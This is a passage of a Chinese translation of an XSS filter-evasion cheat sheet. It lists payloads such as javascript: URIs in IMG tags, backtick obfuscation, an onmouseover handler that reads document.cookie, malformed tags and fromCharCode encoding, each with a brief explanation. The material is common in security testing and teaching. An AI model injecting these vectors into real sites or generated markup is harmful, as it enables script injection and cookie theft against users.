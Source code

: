```
<IMG SRC=javascript:alert("XSS")>

```

* * *

重音符混淆
-----

如果你的javascript代码中需要同时使用单引号和双引号，那么可以使用重音符（`）来包裹javascript代码。它也经常会非常有用因为xss过滤代码未考虑到这个字符。

```
<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>

```

* * *

畸形的A标签
------

跳过href属性，而直接获取xss实质攻击代码...提出被David Cross ~ 已验证在chrome浏览器

```
<a onmouseover="alert(document.cookie)">xxs link</a>

```

此外，chrome浏览器喜欢去不全确实的引号为你。如果你遇到阻碍那么直接省略它们吧，chrome将会正确的帮你不全缺失的引号在URL和script中。

```
<a onmouseover=alert(document.cookie)>xxs link</a>

```

* * *

畸形的IMG标签
--------

最早被 Begeek发现（可以短小而干净的运行于任何浏览器），这个xss向量依靠松散的渲染引擎解析IMG标签中被引号包含的字符串来实现。我猜测它最初是为了正确编码而造成的。这将使它更加困难的去解释HTML标签。

```
<IMG """><SCRIPT>alert("XSS")</SCRIPT>">

```

* * *

fromCharCode
------------

如果没有任何形式的引号被允许，你可以eval()一串fromCharCode在javascript来创建任何你需要的xss向量。

```
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>

```
